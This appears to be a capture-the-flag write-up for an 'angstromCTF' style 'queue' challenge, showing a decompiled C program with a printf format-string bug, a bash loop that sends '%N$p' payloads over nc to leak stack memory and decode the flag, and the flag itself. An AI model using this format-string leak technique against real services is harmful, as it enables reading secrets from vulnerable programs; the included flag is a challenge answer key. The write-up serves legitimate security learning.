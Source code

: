 #### Challenge:

I just learned about stacks and queues in DSA! `nc challs.actf.co 31322`

[queue](./queue ":ignore")

---

#### Solution:

- reversing the binary in `ghidra` reveals, that we need to leak the `stack` content via `fprint` as our input is later printed through it:
```c
void main(void)

{
  __gid_t __rgid;
  FILE *__stream;
  long in_FS_OFFSET;
  char input_var [48];
  char flag_var [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: missing flag.txt.");
    exit(1);
  }
  fgets(flag_var,0x80,__stream);
  printf("What did you learn in class today? ");
  fgets(input_var,48,stdin);
  printf("Oh nice, ");
  printf(input_var);
  printf("sounds pretty cool!");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

```bash
for i in `seq 12 20`; 
    do echo "%${i}\$p" | \
        nc challs.actf.co 31322 | \
        grep 0x | awk '{print substr($10, 3)}' | \
        fold -w2 | \
        tac | \
        tr -d "\n"
done | xxd -r -p
```

---

<details><summary>FLAG:</summary>

```
actf{st4ck_it_queue_it_a619ad974c864b22}
```

</details>
<br/>
